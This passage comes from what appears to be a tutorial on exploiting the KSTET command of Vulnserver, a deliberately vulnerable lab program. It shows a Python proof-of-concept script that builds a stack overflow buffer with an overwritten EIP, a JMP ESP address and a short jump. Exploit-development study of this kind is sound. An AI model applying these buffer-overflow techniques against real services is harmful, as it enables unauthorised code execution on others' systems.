```python
s.close()
```

Sending the initial payload:

<img src="/assets/images/vulnserver/kstet/kstet-send-crash1.png" alt="kstet-send-crash1" width="700"/>

We see the same vanilla stack overflow and see the small space we have to work with.

<img src="/assets/images/vulnserver/kstet/kstet-crash1.png" alt="kstet-crash1" width="900"/>

I will skip over the steps to locate `eip` and a `JMP ESP` instruction to take over flow of execution since it was covered in the [TRUN post](/_posts/vulnserver/2019-01-30-trun.md).

```python
#!/usr/bin/env python

import socket
import sys

pre_buf = 'A' * 70
eip = '\xBB\x11\x50\x62'
jmp = '\x90\xEB\xB5' 
post_buf = 'C' * (26 - len(jmp))
buffer = pre_buf + eip + jmp + post_buf
command = 'KSTET '
data = command + buffer

print '[*] Sending data: ' + command + buffer.encode('hex')
```